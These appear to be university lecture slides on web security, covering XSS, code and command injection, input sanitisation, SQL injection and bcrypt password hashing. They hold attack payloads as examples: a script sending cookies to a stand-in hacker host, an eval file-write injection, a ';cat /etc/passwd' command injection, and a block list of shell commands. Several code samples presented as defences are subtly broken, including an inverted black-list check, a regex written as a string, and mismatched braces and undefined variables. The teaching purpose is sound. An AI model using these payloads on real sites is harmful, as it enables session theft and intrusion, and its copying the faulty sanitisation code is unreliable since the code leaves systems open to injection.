

Security (Encryption, Safety, Passwords, ..)
F28WP Web Programming
2021-2022
## Overview * Web Security * Encryption, data, safety, passwords, .. * Examples
## How secure is your email, password or website?
## Hacked Websites, Passwords, Emails, .. Websites that have been hacked Brute force/database emails/passwords Visit [haveibeenpwned.com](https://haveibeenpwned.com/)
## What types of threats are there?
## Client Mostly arise from malicious data or code, malicious code refers to **viruses**, **worms**, **Trojan** horses ## Server Includes threats such as, unauthorised **eavesdropping**, **Denial of Services (DoS)**, and modification of incoming data packets
## Security considerations ... * How safe is your **data**? * Who can you **trust** on the web? * Which websites are trustworthy? (why) * What makes a trustworthy website/provider? * **Legal** aspects (responsibility) * What **preventative** measures are there?
## Security Worries * Dynamically created web pages involve some **processing** at the server side which might be based on **some untrusted input** from the client * This processing involves execution or interpretation based on this input, done in the web application itself, Database or OS Tell-tale signs that some form of malicious input is going on: <br /> special characters e.g. **@ \ . ; < > --**
## Example of Attack Types * Passive attacks * Active attacks * Insider attacks * Phishing attacks * Hijack attacks * Spoofing attacks * Exploit attacks * Password attacks * ...
## Passive Attack **Passive** attack attempts to take the information from the system and does not affect any system resources or its operation ## Active Attack **Active** attacks attempt to change the system resources or affect their usual operation
## Insider Attack * An insider attack is a malicious attack perpetrated on a network or computer system by a person with **authorised system access** * An insider attack is also known as an **insider threat** ## Phishing Attack * In phishing attack the hacker creates a **fake web site** that looks exactly like a popular site
## Hijack Attack In a hijack attack, a hacker **takes over a session** between a user and a server and disconnects the user from the communication ## Spoofing Attack **Modifies** the **source** address of the packet
## Exploit Attack * A Security **Vulnerability** is a weakness, flaw, or error in a security system that could be exploited to violate the system’s security policy * An **Exploit** is the use of software, data or commands to **exploit** a vulnerability in a computer system or program to carry out some form of **malicious intent** <!-- * Example is denial-of-service **(DoS)** attack, Trojan, worms or virus -->
## Threats * A thread is a potential for violation of security, **may or may not happen** * Can cause **serious** damage * Threats might exploit vulnerability to attacks on computer systems Two popular vulnerability exploits related to web applications: * **Cross site scripting** * **SQL injection**
## Cross-Site Scripting (XSS) * Cross-site scripting - known as XSS * Attacker is able to **inject** malicious code snippets to get important information, or perform other **malicious tasks** <img data-src="images/xss.png" height=400 width=800 style="display: block; margin-left: auto; margin-right: auto; " />
## Cross-Site Scripting (XSS) example * Guestbooks, wikis, blogs, reviews etc. that allow user comments * XSS reflection vulnerability - malicious code supplied to site - subsequently displayed to other users > `Thanks for this information, its great!<script>document.location=` <!-- .element: style="font-size:50%;" --> > `'http://hacker.web.site/cookie.cgi?'+document.cookie</script>` <!-- .element: style="font-size:50%;" -->
## Cross-Site Scripting (XSS) * Assumption is that all content from one site is equally trusted - hence permitted to interact with other content from that site <!-- .element: style="font-size:80%;" --> * Client side scripts, e.g. JavaScript, ActiveX assumed to come from application on site * They allowed to access cookie details, user session, etc * Need to **validate data** supplied
## Code Injection Happens when there is **no input validation** Hacker is able to **inject** his code into your code
## Code Injection * Typical example is Code Injection via GET request * javascript **eval()** function accepts a string to be executed as a javascript code ``` app.get('/help, function (req, res) { // Get the value from "page" GET parameter helpPage = req.query.page if(helpPage){ let jsonObj = eval( '(' + helpPage + ')' ); if(jsonObj.data) { // Do something with the parsed JSON object } } }); ``` What is normally expected: ```text /help?page=page1.json ``` Injection attempt: ```text /help?page=require('fs').writeFileSync('/tmp/maliciouscode','') ```
## Code Injection **Prevention** ## * Use input **validation** - Never relay on Javascsript **only** validate user data Do not parse user-input using eval() or similar commands such as setTimeOut(), setInterval(), and Function(). For parsing JSON input, use the proper native function JSON.parse(). For type conversions, use parse functions such as parseInt() and parseFloat(). * Checks/constraints - list of allowable instructions
## Input Validation ## * Validate aka **sanitise** all user input to avoid dangerous characters - dangerous characters: **; & && | || $() < > >>** * better to do **white-listing** that black-listing - say which characters are allowed rather than which are not * even better: **parse** the complete input before use it - use a standard parser, and use parse tree instead of string * we should also try to mitigate the possible impact<br/> by running the web application with **minimal privileges**
## Command Injection ## * Hacker is able to **inject** code to execute OS commands * Happens when there is no input validation (or input encoding) * **One of the most critical attacks** * For example PHP's **system()** function accepts system commands to be executed * In Node.js the built-in module **child_process** allows JavaScript code to run/pipe other programs and operating system command
## Command Injection in Node.js ## ``` let exec = require('child_process'); app.get('/findip', function (req, res) { // Get the value from "host" GET parameter let host = req.query.host if(host){ // Run an OS command let command = 'nslookup ' + host exec.exec(command, function (err, result){ if (err) res.status(500).send(err); else rep.send(result) }); } }); ``` ``` <form method="get"> <select nae="host"> <option value="google.com">google</option> <option value="yahoo.com">yahoo</option> </select> <input type="submit"> </form> ``` What is normally expected: ```text http://www.mysite.com/findip?host=yahoo.com ``` Command injection attempt: ```text http://www.mysite.com/findip?host=yahoo.com;cat /etc/passwd ```
## Command Injection GET vs POST ## * With GET injection can be easily made by altering the URL using a browser * Can we prevent injection attacks by using POST instead of GET? * It will still be vulnerable - You can use a tool to send a post parameter to inject a command - **Kali tools, BURP, wget, curl**, ... - In fact some of these tools are **Pentest tools** designed to find vulnerabilities in web sites including command injection
## Black-List Sanitisation ## ``` let exec = require('child_process'); const blackList = [';', '|', '||', '&&', 'rm', 'cp', 'cat', 'ls', 'at', 'net', 'netstat', 'del', 'copy'] app.post('/findip', function (req, res) { let host = req.query.host //Get "host" POST parameter if(host){ let suspicions = false; for(term of blackList) { if(term.indexOf(host) >= 0) { suspicions = true; break; } if (!suspicions) { let command = 'nslookup ' + host exec.exec(command, function (err, result) { // Run OS command if (err) res.status(500).send(err); else rep.send(result) }); } } }); ``` ``` <form method="get"> <select nae="host"> <option value="google.com">google</option> <option value="yahoo.com">yahoo</option> </select> <input type="submit"> </form> ```
## White-List Sanitisation ## ``` let exec = require('child_process'); const validHosts = ['google', 'yahoo', 'bing', 'facebook'] app.post('/findip', function (req, res) { let host = req.query.host.toLowerCase() //Get "host" POST parameter if(host){ let suspicions = true; for(item of validHosts) { if(item + '.com' == host) { suspicions = false; break; } if (!suspicions) { let command = 'nslookup ' + host exec.exec(command, function (err, result) { // Run OS command if (err) res.status(500).send(err); else rep.send(result) }); } } }); ``` ``` <form method="get"> <select nae="host"> <option value="google.com">google</option> <option value="yahoo.com">yahoo</option> </select> <input type="submit"> </form> ```
## Sanitisation by Regular Expression Matching ## ``` let exec = require('child_process'); app.post('/findip', function (req, res) { let host = req.query.host.toLowerCase() //Get "host" POST parameter if(host){ if(!host.match('/[^a-z]\.]/i') { //matches any chars except A-Z a-z or . let command = 'nslookup ' + host exec.exec(command, function (err, result) { // Run OS command if (err) res.status(500).send(err); else rep.send(result) }); } } }); ``` ``` <form method="get"> <select nae="host"> <option value="google.com">google</option> <option value="yahoo.com">yahoo</option> </select> <input type="submit"> </form> ```
## Data Security
## SQL Injection An attack in which malicious code is embedded in a poorly designed application and then passed to the **backend database**
## Sample code with sql ## ``` app.get('/login', function (req, res) { let uname = req.query.username //Get "username" parameter if(uname){ let query = "SELECT username, userpwd FROM Users WHERE username=uname" connection.query(query, , function (err, result) { if (err) throw err; console.log(result); rsp.send(result) }); } }); ``` Sample request: ```text http://www.mysite.com/login?username=abcd ``` What if **username** is a malicious string that changes the meaning of the query?
## Passwords
## How to store passwords? ## * The most important aspect of a user account is how user passwords are protected * Passwords should never be stored in their original form - usually a hash of password is stored * A hashing algorithms is a **one way** function that turn any amount of data into a fixed-length "fingerprint" that cannot be reversed * You can use **bcryptjs** or **bcrypt** node.js modules for password hashing ``` var bcrypt = require ('bcryptjs');
## Steps in user account system ##  <u>Store password:<u/> 1. The user creates an account 2. User's password is **salted** and **hashed** and stored in database Compare password: 1. When login hash of input password compared with value in DB 2. If the hashes match, the user is granted access
## How to store passwords? ## * Store a password ``` const bcrypt = require ('bcryptjs'); let password = "abcd"; let salt = bcrypt.genSalt(10, function(err, salt){ let hash = bcrypt.hash(password, salt, function(err, hash) { console.log(hash); // store hash as the use password in database . . . }); }); ``` * the **hash value** to be stored in db instead of the password ```text hash="$2b$10$HfavdEJGaF/uoG/JZOeeCOuxUsi9VCl4Ifw2F6Eyohk7B5Pc6qqAi" ``` * Compare the input password with the value in database ``` // get hash for the user's password from the database . . . bcrypt.compare(password, hash, function(err, result) { console.log(result? "Password matches!" : "Invalid password!"); . . . }); ```
## Summary * Understand core security concepts (encryption, safety, passwords, ..) * Importance of **security** * Example **preventative measures**
## To do this week ... * **Read** over the lectures * Review the revision questions * Work through tutorial practicals * **Experiment** (get into good habits)